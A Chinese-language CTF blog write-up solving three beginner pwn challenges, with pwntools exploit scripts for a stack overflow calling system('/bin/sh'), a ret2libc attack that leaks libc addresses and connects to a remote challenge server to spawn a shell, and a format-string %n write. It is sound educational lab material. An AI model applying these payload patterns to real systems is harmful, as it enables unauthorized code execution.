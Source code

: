 ```yaml
---
title: 「攻防世界」Pwn - cgpwn2|level3|CGfsb WriteUps
date: 2021-12-30
tags: ['CTF', 'Pwn', 'writeup', 'wp']
authors: [nova]
---
```

## cgpwn2 | level3 | CGfsb

### **碎碎念**

因为这半个月事情很多（摆邮major/APEX/期中考），加上新环境一直有问题，所以基本上没有什么关于CTF的内容:I但是其他的事情也基本没什么进展

马上又要打比赛了，想着临时抱佛jio冲一哈，先把这几个简单的栈相关的题目搞一下:<

原本想要每题都做一个详尽的WP水文章来着，但是好像比较基础就合在一起了:>

<!--truncate-->

### **cgpwn2**

直接拖进checksec/ida

![https://cdn.ova.moe/img/image-20211112104246870.png](https://cdn.ova.moe/img/image-20211112104246870.png)

![https://cdn.ova.moe/img/image-20211112105108027.png](https://cdn.ova.moe/img/image-20211112105108027.png)

![https://cdn.ova.moe/img/image-20211112112126099.png](https://cdn.ova.moe/img/image-20211112112126099.png)

这题意图就很明显了：在第一个gets中输入指令（"/bin/sh"），第二个gets中溢出然后调用system函数

> system + 返回地址 + 指令

于是找出偏移和地址，轻松写出exp>

```
from pwn import *

context(log_level='debug')

r = process('./53c24fc5522e4a8ea2d9ad0577196b2f')

r.recvuntil('your name\\n')
r.sendline(b'/bin/sh')

cmd_addr = 0x0804A080
system_addr = 0x08048420
payload = b'A'*0x2A + p32(system_addr) + p32(0) + p32(cmd_addr)

r.recvuntil('here:\\n')
r.sendline(payload)
r.interactive()
```

拿到flag`cyberpeace{53e372c0f3209a11ef4429e8e2546bbf}`

### **level3**

看题目介绍应该是ret2libc的题，这是我第一题libc泄露，所以着重讲讲

> 知识点：CTF-WIKI

下载下来是一个gz压缩文件，解压出来是一个so文件和elf文件

（结果我tar解压的时候不知道为什么名字不能自动补全，手搓了32位md5码的文件名了属于是）

按照惯例checksec看一下(checksec也不知道为什么软连接搞不上，我要吐力)

![https://cdn.ova.moe/img/image-20211112114145579.png](https://cdn.ova.moe/img/image-20211112114145579.png)

![https://cdn.ova.moe/img/image-20211112140131570.png](https://cdn.ova.moe/img/image-20211112140131570.png)

总之先上EXP:

```
from pwn import *

context(log_level="DEBUG")
# r = process("./level3")
r = remote("111.200.241.244", 53829)
elf = ELF("./level3")
libc = ELF("./libc_32.so.6")

write_plt = elf.plt["write"]
write_got = elf.got["write"]
func = elf.sym["vulnerable_function"]

payload1 = b'a'*0x88 + b'aaaa' + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(4)
r.recvuntil("Input:\\n")
r.sendline(payload1)

write_addr = u32(r.recv(4))

write_libc = libc.sym["write"]
system_libc = libc.sym["system"]
bin_sh_libc = next(libc.search(b"/bin/sh"))
print('write_addr: ', hex(write_addr))

libc_base = write_addr - write_libc
system_addr = libc_base + system_libc
bin_sh_addr = libc_base + bin_sh_libc

print('bin_sh_addr: ', hex(bin_sh_addr))
print('system_addr: ', hex(system_addr))

payload2 = b'a'*0x88 + b'aaaa' + p32(system_addr) + p32(0) + p32(bin_sh_addr)
r.recvuntil("Input:\\n")
r.send(payload2)
r.interactive()
```

这里有个很奇怪的点，我写exp的时候用的是Python3.10.0，但是本地调试的时候这个exploit是过不了的，换成py2又可以过

关键是我只更改了`bin_sh_libc`这里的代码，py2用的是`generator.next()`，而py3用的是`next(generator)`，但是结果是一样的。

我把最后的payload打印出来对比也没有任何区别（肉眼上）。但是Py3远程又是能过的^ ^，不知道什么高手情况。

#### **分析**

整个程序非常简单，也只有一个`vulnerable_function`可以利用，但是程序中并没有利用到system函数，这里就自然的引出了GOT表泄露。

得益于libc的延迟绑定机制，我们如果知道libc中某个函数的地址，就可以通过其在程序中的地址与libc中地址的差算出偏移。又由于libc.so动态链接库中的函数之间相对偏移是固定的，得到了偏移，再通过libc中我们想要的函数的地址，就可以确定其函数在程序当中的地址。

```
payload1 = b'a'*0x88 + b'aaaa' + p32(write_plt) + p32(func) + p32(1) + p32(write_got) + p32(4)
```

首先看payload1，先填充buf不多说，覆盖返回地址这里值得注意：

我们先将返回地址覆盖为write_plt，再将func作为write函数的返回地址，后面再填write的三个参数，这样做的话在write结束后就又会跳转会`vulnerable_function()`这里，便可以截到write的GOT地址

接下来就是算偏移和找地址，不多赘述。

此时程序又一次运行到了`read()`函数这里，那直接轻松覆盖一个system函数上去就好了:>

### **CGfsb**

![https://cdn.ova.moe/img/image-20211112141233440.png](https://cdn.ova.moe/img/image-20211112141233440.png)

一眼FormatString

需要使得`0x0804A068`这个地址的变量`pwnme`为8

先找到格式化字符串的参数在第几个

```
from pwn import *

context(log_level="DEBUG")
r = process("./e41a0f684d0e497f87bb309f91737e4d")

r.sendlineafter("your name:\\n", p32(0x0804A068))
r.recvuntil('please:\\n')
r.sendline(b'AAAA' + b'%x.'*0x10)
r.recvuntil("is:\\n")
print(r.recv())
```

![https://cdn.ova.moe/img/image-20211112142129570.png](https://cdn.ova.moe/img/image-20211112142129570.png)

可以看到41414141在第十个参数的位置，那么我们只需要把pwnme的地址写入，然后通过%n把8写入它就好了

最后的exp:

```
from pwn import *

context(log_level="DEBUG")
r = process("./e41a0f684d0e497f87bb309f91737e4d")

r.sendlineafter("your name:\\n", p32(0x0804A068))
r.recvuntil('please:\\n')
r.sendline(p32(0x0804A068) + b'AAAA' + b'%10$n')
r.interactive()
```

至此，宣告PWN的新手区AK（不容易啊🥵）